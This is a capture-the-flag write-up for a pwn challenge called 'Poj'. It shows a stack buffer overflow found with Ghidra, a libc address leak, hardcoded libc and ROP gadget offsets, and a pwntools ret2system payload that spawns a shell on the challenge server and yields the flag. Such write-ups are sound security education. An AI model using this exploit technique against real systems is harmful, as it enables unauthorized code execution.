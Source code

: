 # challenge Name: Prog

![Poj_challenge](../images/poj.png)


In this challenge, we are given a binary file with a dinamyc linker/loader

1. # first step: let analyse the prog security mitigation
```
 pwn checkseck poj 
```

![Poj_challenge](../images/checksec_poj.png)
    ## No cannary found. 

 note that we need libc.so.6 file in the current directory in order to run pob binary

 2. # second step: understand how the prog work

![Poj_challenge](../images/poj_exec1.png)
     we have memory leak of write address

    # reverse engineering the program
after decompiled the prog with ghidra, we can know that the main function  print write address and call vuln_func.

vuln function read 0x100 byte on local array of length 64 so we have a BOF.


![main_function](../images/main_func_poj.png)


# vuln_function

![vuln_function](../images/vuln_func_poj.png)


3. # exploit the BOF:
    as the prog don't have Cannary and we also have address leak,   we can  exploit  the buffer overflow to make ``ret2system`` 
    1. found offset
    ![found bof offse](../images/found_offset1_poj.png)
# offset = 72
    ![found bof offset](../images/found_offset2_poj.png)
    
    2. found useful function address /bin/sh string and gadgets  on the libc 
```python    ```
 # libc.so.6 write = 0xff4d0

libc_write = 0xff4d0  # readelf -s libc.so.6 | grep write 

libc_system  = 0x000000000004dab0  # readelf -s libc.so.6 | grep system 

libc_bin_sh = 0x197e34 # strings -t x libc.so.6 | grep "/bin/sh"

pop_rdi_offset =  0x0000000000028215 # found with ropper 

ret_offset =  0x00000000000f35d8 # found with ropper
```


# Now calculate the PIEBASE and craft the payload
```
libc_addr = leaked_addr - libc_write 
sys_addr = libc_addr + libc_system
bin_sh = libc_addr + libc_bin_sh
pop_rdi = pop_rdi_offset + libc_addr
ret_addr = ret_offset + libc_addr

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        ret_addr,
        sys_addr
        ]
})
```

# see the complet exploit: ![exploit](./poj_exploi.py)

```bash
python3 poj_exploi.py  REMOTE challenge.bugpwn.com 1003

```
![found bof offset](../images/exploit_poj.png)
and we get the flag: battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd} 

    
@Top0n3
